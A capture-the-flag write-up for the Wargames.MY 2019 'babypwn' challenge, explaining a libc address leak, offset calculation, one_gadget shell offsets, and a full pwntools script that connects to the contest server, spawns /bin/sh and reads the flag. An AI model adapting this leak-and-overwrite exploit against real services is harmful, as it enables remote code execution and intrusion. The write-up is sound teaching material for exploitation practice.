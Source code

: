 ```yaml
---
layout: post
title: babypwn (pwn)
ctf: Wargames.MY 2019
permalink: /wargamesmy-19/babypwn
---
```


> Nothing else, just
>
> nc 45.76.161.20 19509
>
> [babypwn][babypwn]

The pseudocode of the program looks like this

```cpp
void main(void)
{
  code *fptr;
  
  leak_memory(1,&stdout,4,0xcafebabe,0xdeadbeef,1,3,3,7);
  scanf("%d",&fptr);
  (*fptr)(0xdeadbeef);
  return;
}

void leak_memory(int a, char* b, int c, int d, int e, int f, int g, int h, int i) {
    write(a, b, c);
}
```

So thanks to `leak_memory`, we have the address of `_IO_2_1_stdout`. This can be confirmed by reading the 4 bytes printed to the output, then converting it to integer and checking it in gdb.

```py
from pwn import *

r = process("./babypwn")
leak = u32(r.recv(4))
libc_base = leak
log.info(hex(leak))
pause()
```

**script**
```
➤ python xpl.py
[+] Starting local process './babypwn': pid 8031
[*] 0xf76e2d80
[*] Paused (press any to continue)
```

**gdb**
```plaintext
gef➤  attach 8031
...
gef➤  xinfo 0xf76e2d80
──────────────── xinfo: 0xf76e2d80 ────────────────────────────────────────────
Page: 0xf76e2000  →  0xf76e3000 (size=0x1000)
Permissions: rw-
Pathname: /lib/i386-linux-gnu/libc-2.27.so
Offset (from page): 0xd80
Inode: 1846505
Segment: .data (0xf76e2040-0xf76e2ef4)
Symbol: _IO_2_1_stdout_
gef➤  vmmap
Start      End        Offset     Perm Path
0x08048000 0x08049000 0x00000000 r-x /root/ctfs/wgmy2019/babypwn/babypwn
0x08049000 0x0804a000 0x00000000 r-- /root/ctfs/wgmy2019/babypwn/babypwn
0x0804a000 0x0804b000 0x00001000 rw- /root/ctfs/wgmy2019/babypwn/babypwn
0x0851a000 0x0853c000 0x00000000 rw- [heap]
0xf750a000 0xf76df000 0x00000000 r-x /lib/i386-linux-gnu/libc-2.27.so
0xf76df000 0xf76e0000 0x001d5000 --- /lib/i386-linux-gnu/libc-2.27.so
0xf76e0000 0xf76e2000 0x001d5000 r-- /lib/i386-linux-gnu/libc-2.27.so
0xf76e2000 0xf76e3000 0x001d7000 rw- /lib/i386-linux-gnu/libc-2.27.so
0xf76e3000 0xf76e6000 0x00000000 rw-
0xf76f2000 0xf76f4000 0x00000000 rw-
0xf76f4000 0xf76f6000 0x00000000 r-- [vvar]
0xf76f6000 0xf76f7000 0x00000000 r-x [vdso]
0xf76f7000 0xf771d000 0x00000000 r-x /lib/i386-linux-gnu/ld-2.27.so
0xf771d000 0xf771e000 0x00025000 r-- /lib/i386-linux-gnu/ld-2.27.so
0xf771e000 0xf771f000 0x00026000 rw- /lib/i386-linux-gnu/ld-2.27.so
0xffdda000 0xffdfb000 0x00000000 rw- [stack]
```

Knowing the address of `_IO_2_1_stdout` means we can subtract the offset (0xd80 + 0x1d8000) to know the address of libc. 0xd80 is obtained from the output of `xinfo`. 0x1d8000 is obtained from `0xf76e2000-0xf750a000` because 0xd80 is the offset from 0xf76e2000 while 0xf750a000 is the actual start of libc.

```py
libc_base = leak - 0xd80 - 0x1d8000
log.info("Leaked: " + hex(libc_base))
```

Next the `scanf` allows us to write into the variable `fptr`. This is the address of the function that will be called next. Because ultimately we want a shell to gain access to the server, the `one_gadget` tool is very helpful to find addresses in a binary that when executed will give a shell.

It is always possible to find such address in libc because it is so big, so just need to run `one_gadget` on it to get the list of possible offsets.

```plaintext
➤ cp /lib/i386-linux-gnu/libc-2.27.so .
➤ one_gadget libc-2.27.so
0x3d0d3	execve("/bin/sh", esp+0x34, environ)
constraints:
  esi is the GOT address of libc
  [esp+0x34] == NULL

0x3d0d5	execve("/bin/sh", esp+0x38, environ)
constraints:
  esi is the GOT address of libc
  [esp+0x38] == NULL

0x3d0d9	execve("/bin/sh", esp+0x3c, environ)
constraints:
  esi is the GOT address of libc
  [esp+0x3c] == NULL

0x3d0e0	execve("/bin/sh", esp+0x40, environ)
constraints:
  esi is the GOT address of libc
  [esp+0x40] == NULL

0x67a7f	execl("/bin/sh", eax)
constraints:
  esi is the GOT address of libc
  eax == NULL

0x67a80	execl("/bin/sh", [esp])
constraints:
  esi is the GOT address of libc
  [esp] == NULL

0x137e5e	execl("/bin/sh", eax)
constraints:
  ebx is the GOT address of libc
  eax == NULL

0x137e5f	execl("/bin/sh", [esp])
constraints:
  ebx is the GOT address of libc
  [esp] == NULL
```

Trying a few of them, I get (libc_base+0x3d0d5) that works. Oh also, to properly write the address using scanf, we need to pass in addresses higher than 0x7fffffff as a negative number otherwise it will just be capped at 0x7fffffff.

This offset may work on my machine but may not on the server because the libc versions may be different. If it doesn't then I will need to download other libc versions and try different offsets. But nevermind, it worked on first try.

```py
from pwn import *

# r = process("./babypwn")
r = remote("45.76.161.20", 19509)

# get leaked _IO_2_1_stdout and libc base
leak = u32(r.recv(4))
libc_base = leak - 0xd80 - 0x1d8000
log.info("Leaked: " + hex(libc_base))

# input address to get shell
sh = libc_base + 0x3d0d5
log.info("Shell: " + hex(sh))
sh = -(2**32 - sh) if sh > 0x7fffffff else sh
r.sendline(str(sh))

r.interactive()
```

```
➤  python xpl.py
[+] Opening connection to 45.76.161.20 on port 19509: Done
[*] Leaked: 0xf7dad000
[*] Shell: 0xf7dea0d5
[*] Switching to interactive mode
$ cat flag.txt
wgmy{b20208102bc4242bb10197edec8f3bb9}
```

[babypwn]:{{site.baseurl}}/ctfs/wargamesmy-19/babypwn/babypwn